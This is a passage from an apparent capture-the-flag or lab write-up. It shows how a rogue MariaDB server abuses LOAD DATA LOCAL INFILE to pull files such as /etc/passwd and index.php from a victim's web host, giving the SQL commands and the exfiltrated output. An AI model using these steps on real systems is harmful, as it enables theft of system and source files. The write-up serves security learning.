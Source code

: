 Obtaining the following response:
![](./img/2022-06-28_00-37.png)

Now, following the exploit, we can use the `SQL Console` to create an empty table:
```sql
create table honeypot(output varchar(1024));
```
Now, notice that the commands ran in the `SQL Console` are sent from the victim to our machine, meaning we could try to read files as:
```sql
load data local infile "/etc/passwd" into table pwnd.honeypot;
```
If we run this command, the response we receive is:
![](./img/2022-06-28_00-54.png)

From this output, we can guess that the file `/etc/passwd` cannot be accessed by the user hosting the server. So we can try to access files we know it can access, for example, the `.php` ones, as `index.php`:
```sql
load data local infile "/var/www/html/index.php" into table pwnd.honeypot; 
```
![](./img/2022-06-28_00-59.png)
Now, if we look at the content of `honeypot` table:
```sql
MariaDB [pwnd]> select * from honeypot;
+-----------------------------------------------------------------------------------------+
| output                                                                                  |
+-----------------------------------------------------------------------------------------+
| <!DOCTYPE HTML>                                                                         |
| <!--                                                                                    |
|                                                                                         |
|                                                                                         |
|                                                                                         |
| -->                                                                                     |
```